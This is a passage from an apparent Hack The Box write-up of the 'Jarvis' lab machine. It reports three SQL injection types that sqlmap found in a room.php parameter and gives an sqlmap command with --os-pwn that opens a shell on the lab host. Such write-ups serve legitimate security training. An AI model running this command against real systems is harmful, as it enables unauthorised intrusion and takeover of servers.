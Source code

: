 ![](/assets/images/htb-writeup-jarvis/sql2.png)

sqlmap found 3 type of SQL injections

- boolean-based blind
- time-based blind
- UNION query

By default, sqlmap will use the union query since it's much faster than the other two.

We easily get a shell using the `--os-pwn` option in sqlmap:

`sqlmap -u http://jarvis.htb/room.php?cod=1 -p cod --delay 2 --random-agent --os-pwn`

![](/assets/images/htb-writeup-jarvis/met1.png)

![](/assets/images/htb-writeup-jarvis/met2.png)

